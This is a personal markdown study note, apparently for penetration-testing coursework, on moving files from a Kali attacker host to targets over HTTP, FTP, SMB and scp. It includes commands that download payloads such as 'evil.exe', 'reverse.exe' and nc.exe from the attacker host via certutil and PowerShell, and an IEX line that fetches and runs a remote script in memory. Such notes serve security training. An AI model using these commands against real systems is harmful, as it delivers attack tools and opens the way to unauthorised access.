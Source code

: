 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[File Transfers]]  
___

## Description:  

### http
host webpage on Kali
`python3 -m http.server 80`

Get the file with:
```
curl http://192.168.19.55/test.c --output test.c

wget 172.16.0.109/test

Invoke-WebRequest http://10.10.14.45:1234/required_tool -O tool

powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')

certutil.exe -urlcache -split -f http://10.20.150.101/reverse.exe reverse.exe


```

You can run a powershell script right away with:
```
C:\Users\Offsec> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
Hello World
```

### FTP server
`sudo python3 -m pyftpdlib -p21 -w`
If available, use authbind with an unprivileged account to bind to port 21
`authbind python -m pyftpdlib -p21 -w`

Or you can setup Pure-FTPd
```
sudo apt update && sudo apt install pure-ftpd

kali@kali:~$ cat ./setup-ftp.sh
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd


kali@kali:~$ chmod +x setup-ftp.sh
kali@kali:~$ sudo ./setup-ftp.sh
Password:
Enter it again:
Restarting ftp server

```


**Retrieve with Linux
`ftp 10.11.0.4`

**Retrieve with windows
```
C:\Users\offsec> ftp -h

C:\Users\offsec>echo open 10.11.0.4 21> ftp.txt
C:\Users\offsec>echo USER offsec>> ftp.txt
C:\Users\offsec>echo lab>> ftp.txt
C:\Users\offsec>echo bin >> ftp.txt
C:\Users\offsec>echo GET nc.exe >> ftp.txt
C:\Users\offsec>echo bye >> ftp.txt


C:\Users\offsec> ftp -v -n -s:ftp.txt
```

### SMB server
```
On kali:

sudo smbserver.py share `pwd`

On Windows:

net use z: \\10.10.14.10\share

```

### SMB server with samba
```
kali@kali:~$ sudo apt install samba
...
kali@kali:~$ sudo mv /etc/samba/smb.conf /etc/samba/smb.conf.old
kali@kali:~$ sudo nano /etc/samba/smb.conf
```
smb.conf
```
[visualstudio]
path = /home/kali/data
browseable = yes
read only = no
```
create a samba user that can access the share
```
kali@kali:~$ sudo smbpasswd -a kali
New SMB password:
Retype new SMB password:
Added user kali.
kali@kali:~$ sudo systemctl start smbd
kali@kali:~$ sudo systemctl start nmbd
```
create the shared folder and open up the permissions
```
kali@kali:~$ mkdir /home/kali/data
kali@kali:~$ chmod -R 777 /home/kali/data
```
On windows open up file explorer and visit `\\192.168.119.120`. When prompted provide the username and password.
### scp
```
Remote Host to Local (push):
scp username@from_host:file.txt /local/directory/

Local to Remote Host (pull):
scp file.txt username@to_host:/remote/directory/

Use -r for directories

Remote to Remote:
scp username@from_host:/remote/directory/file.txt username@to_host:/remote/directory/
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:18 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
